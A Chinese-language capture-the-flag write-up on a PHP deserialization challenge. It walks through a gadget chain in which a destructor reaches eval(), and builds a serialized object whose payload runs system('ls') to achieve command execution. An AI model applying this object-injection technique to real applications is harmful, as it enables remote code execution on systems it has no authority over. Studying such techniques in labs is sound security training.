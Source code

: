 接下来让我们着重分析一下这道题反序列化的过程

```php
class WelcomeZK{
    public $ClassObj;
    function __construct(){
        $this->ClassObj = new pearlsky();
    }
    function  __destruct(){
        $this->ClassObj->action();
    }
};
class pearlsky{
    public $data;
    function action(){
        eval($this->data);
    }
};
```

- 首先题目定义了两个类，WelcomeZK和pearlsky，其中WelcomeZK的构造函数会创建一个pearlsky的对象，并赋值给ClassObj属性，而WelcomeZK的析构函数会调用ClassObj的action()方法。
- pearlsky类有一个data属性，它的action()方法会用eval()函数执行data属性的值

所以这道题的突破点就在eval()函数内可进行系统指令与如何对data进行赋值

我们直接在pearlsky类下对data进行赋值（不在类外进行赋值是为了防止在命令执行之前__destruct()函数就已经将序列化过程中断导致无法对data进行赋值）

```php
class pearlsky{
    public $data = "system('ls');";
    function action(){
        eval($this->data);
    }
};
```

随后我们建立一个变量a，从而对序列化后的字符串进行输出

`$a = new WelcomeZK();`

到现在我们的脚本是这样的

```php
<?php
show_source(__FILE__);
//flag在同目录flag文件中
class WelcomeZK{
    public $ClassObj;
    function __construct(){
        $this->ClassObj = new pearlsky();
    }
    function  __destruct(){
        $this->ClassObj->action();
    }
};
class pearlsky{
    public $data = "system('ls');";
    function action(){
        eval($this->data);
    }
};
$a = new WelcomeZK();
echo serialize($a);
```
